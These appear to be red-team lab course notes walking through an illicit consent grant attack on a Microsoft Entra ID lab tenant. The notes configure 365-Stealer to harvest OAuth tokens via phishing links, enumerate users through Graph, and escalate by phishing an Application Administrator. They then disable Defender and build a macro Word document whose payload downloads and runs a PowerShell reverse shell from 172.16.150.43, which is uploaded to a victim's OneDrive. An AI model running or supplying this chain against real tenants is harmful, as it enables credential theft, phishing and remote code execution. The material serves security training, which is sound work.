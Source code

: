 # Illicit Consent Grant attack



**Register an application**

Entra ID -> App Registrations and click on New registration

Enter  the Name of the application, choose 'Accounts in any organizational directory (Any Entra ID directory - Multitenant)'

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Go to the 'Certificates & Secrets' blade of the application you registered, create a new client secret and copy it before browsing away from the page.

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, go to the 'API permissions' blade and add the 'user.read' and 'User.ReadBasic.All' for the Microsoft Graph.

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to the OverView blade and note Application (Client) ID

**Set the 365-stealer config using CLI**

```batch
C:\xampp\htdocs\365-Stealer>python 365-Stealer.py --set-config

[snip]


 Welcome to 365-Stealer Configuration.

 Client ID ==> e06c6a0c-27bc-433a-b06e-5ef5ab0530af
 Client Secret ==> am0ZV1a7xms6nW_AwMqAE~~kco1nNcBc.L
 Redirect Url ==> https://172.16.150.X/login/authorized
 Redirect Url After Stealing ==>
 Macros File Path ==>
 OneDrive Extensions ==>
 Delay ==> 1
[+] 365-Sealer Configuration set successfully!
[snip]

Run the tool:
C:\xampp\htdocs\365-Stealer>python 365-Stealer.py --run-app

[snip]

```

Connecting to MSGraph

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 

```

### Consent and Permissions

* Applications can ask users for permissions to access their data. For example, for basic sign-in.
* If allowed, a normal user can grant consent only for "Low Impact" permissions. In all other cases, admin consent is required.
* GA, Application Administrator, Cloud Application Administrator and a custom role including 'permission to grant permissions to applications' can provide tenant wide consent.
* Consent policies can be set for all users
* Do not allow user consent
* Allow user consent for apps from verified publishers, for selected permissions - Only for "Low Impact" permissions for apps from same tenant and verified publisher.
* Allow user consents for all apps - Allows consent for apps from other tenants and unverified publishers for Low Impact permissions. (Default)
* Custom app consent policy.
* 'Allow user consent for all apps' is interesting and abusable!

**Consent and Permissions - Low Impact Permissions**

* Only the permissions that don't need admin consent can be classified as low impact.
* Permissions required for basic sign-in are openid, profile, email, `User.Read` and `offline_access`.
* That means, if an organization allows user consent for all apps, an employee can grant consent to an app to read the above from their profile.
* There are some very interesting low impact permissions. For example: `User.ReadBasic.All` that allows the app to read display name, first and last name, email address, open extensions and photo for all the users!

### Illicit Consent Grant

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3d7e6138-63c1-42d7-94c9-f77ae6717fdb/9f1b36c9-f005-47b0-b60f-c24952cecc20/image.png)

* Register a Multitenant application `studentx` in `defcorpextcontractors` tenant.
* Provide the Redirect URI where you would like to receive tokens. In the lab, it will be the student VM[https://172.16.151.X/login/authorized](https://172.16.151.x/login/authorized) (or 172.16.150.X or 172.16.152.X depending on your location)
* Go to the 'Certificates & secrets' blade and create new Client secret. Copy the client secret before browsing away from the page.
* Go to the 'API permissions' blade and add the following Delegated permissions for Microsoft Graph: `user.read`, `User.ReadBasic.All`

> Note: In case we want to use Access tokens, following config is required - In the 'Authentication' option of the `studentx` app, check 'Access tokens (used for implicit flows)' and click on 'Save'. We will use Refresh token so no configuration is required.

**Phishing**

* We have user privilege access to the `defcorphq` tenant. Check if users are allowed to consent to apps.
* Use Azure Portal or the below command from the AzureAD Preview module: `(GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`
* If the output of above is 'ManagePermissionGrantsForSelf.microsoftuser-default-legacy', that means users can consent for all apps!
* In a real assessment, we simply need to try to know.
* Let's use 365-stealer ([https://github.com/AlteredSecurity/365-Stealer](https://github.com/AlteredSecurity/365-Stealer)) to abuse the consent grant settings!
* Please note that the attack can be executed using the o365 toolkit ([https://github.com/mdsecactivebreach/o365-attack-toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)) as well. But due to some limitations in the lab, we are not using it.
* Run xampp Control Panel (Run as administrator) and start Apache on the student VM.
* Copy the '365-stealer' directory from C:\AzAD\Tools to C:\xampp\htdocs to capture tokens returned by Entra ID.
* Using the '365-Stealer Configuration' button , configure CLIENTID, REDIRECTURL and CLIENTSECRET
* Click on 'Run 365-Stealer' to run the tool.
* Browse to[https://localhost](https://localhost) using an incognito window and click on 'Read More' in the web page. This gives you the phishing link that is to be sent to the target.
* We need to find a way to send the link to targets. We can abuse applications that allow us to contact users in the target organization.
* We can find applications running on the `defcorphq` tenant by sub-domain recon.
* Use MicroBurst to find the applications. We can add permutations like career, hr, users, file, backup to the permuations.txt used by MicroBurst etc.

```powershell
. C:\\AzAD\\Tools\\MicroBurst\\Misc\\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

* We can also assume that the[https://defcorphqcareer.azurewebsites.net](https://defcorphqcareer.azurewebsites.net) application is known as a contractor may have some existing knowledge of the target.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3d7e6138-63c1-42d7-94c9-f77ae6717fdb/cac02694-0e96-4b74-a9a8-1e0c11974079/image.png)

* Wait for couple of minutes and browse to [http://localhost:82/365-Stealer/yourvictims/](http://localhost:82/365-Stealer/yourvictims/) on the attacking machine to get tokens for victims who click on the phishing link.
* Use the access token with the Graph API to list other users in the tenant.
* Note that only the permissions that we requested earlier are available with the access token. We can list all the users thanks to `User.ReadBasic.All`

```powershell
$Token = 'eyJ0eXAiOiJK...'
$URI = '<https://graph.microsoft.com/v1.0/users>'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}

(Invoke-RestMethod @RequestParams).value
```

* We need to target an Application Administrator to grant consent for better permissions.
* Ideally, we have to target all the users. For the lab, we can use our earlier enumeration that Application Administrator role is assigned to [markdwalden@defcorphq.onmicrosoft.com](mailto:markdwalden@defcorphq.onmicrosoft.com)
* We need to register a new app (or modify existing one) and now request permissions that need admin consent - `mail.read`, `notes.read.all`, `mailboxsettings.readwrite`, `files.readwrite.all`, `mail.send`
* Generate a new link using 'Read More' on[https://localhost](https://localhost) and send an email to the user containing that link (Remember to change the client ID if you register a new application)
* Once the user simulation grants consent, we will get the access token of the application administrator.
* Using the access token of application administrator, we can use 365-stealer to upload macro infested doc files to the user's OneDrive.
* The user simulation will open these macro infested word files and execute the macro.
* A licensed version of Office 365 is available on 172.16.1.250 to create doc files

```powershell
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("officevm\\administrator", $passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds
Enter-PSSession -Session $officeVM

Set-MpPreference -DisableRealtimeMonitoring $true 
IEX (New-Object Net.Webclient).downloadstring("<http://172.16.150.43:82/Out-Word.ps1>")
Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('<http://172.16.150.43:82/Invoke-PowerShellTcp.ps1>');Power -Reverse -IPAddress 172.16.150.43 -Port 4444" -OutputFile student43.doc 
exit

Copy-Item -FromSession $officeVM -Path C:\\Users\\Administrator\\Documents\\student43.doc -Destination C:\\AzAD\\Tools\\student43.doc
```

* Start a listener on the student VM
* On the student VM, use 365-stealer webconsole or CLI to upload the doc to OneDrive of [MarkDWalden@defcorphq.onmicrosoft.com](mailto:MarkDWalden@defcorphq.onmicrosoft.com)

```bash
python C:\\xampp\\htdocs\\365-Stealer\\[365-Stealer.py](<http://365-stealer.py/>) --refresh-user [MarkDWalden@defcorphq.onmicrosoft.com](<mailto:MarkDWalden@defcorphq.onmicrosoft.com>) --upload C:\\AzAD\\Tools\\studentx.doc
```
